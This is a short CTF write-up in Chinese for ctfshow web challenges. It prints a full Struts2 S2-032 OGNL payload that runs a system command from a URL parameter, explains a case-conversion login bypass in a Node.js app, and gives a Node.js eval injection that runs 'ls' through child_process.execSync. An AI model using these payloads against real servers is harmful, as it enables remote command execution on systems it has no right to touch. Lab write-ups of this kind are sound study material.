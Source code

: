 ### web290
`s2-032`

*payload*
```java
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

### --直到297全是s2,先过

### 


## nodejs
### web334
审计代码我们已经知道了账号密码
```node
module.exports = {
  items: [
    {username: 'CTFSHOW', password: '123456'}
  ]
};
```

```node
var findUser = function(name, password){
  return users.find(function(item){
    return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
  });
};
```

需要满足这个函数,其中username不能为CTFSHOW,但是对比的时候是与传入参数.toUpperCase后的,使用小写绕过
### web335
#nodejs 
查看源码提示`/?eval=`
猜测eval();
执行任意代码`require("child_process").execSync("ls").toString()`

---
> 刚开始一直使用的是exec,但是执行不了命令
> require("child_process").exec() 方法是异步执行系统命令的方法，它不会阻塞当前进程，而是在命令执行完成后通过回调函数返回命令的输出结果。由于该方法是异步执行的，因此在执行命令时不会阻塞进程，但是需要使用回调函数来处理命令的输出结果
> 
> require("child_process").execSync() 方法是同步执行系统命令的方法，它会阻塞当前进程直到命令执行完成，并返回命令的输出结果。由于该方法是同步执行的，因此在执行较大的命令或输出大量数据时，可能会导致阻塞和占用大量的内存
> 
> 由于 require("child_process").exec() 方法是异步执行的，因此无法通过方法返回值来获取命令的输出结果。如果需要获取命令的输出结果，需要在回调函数中处理输出结果
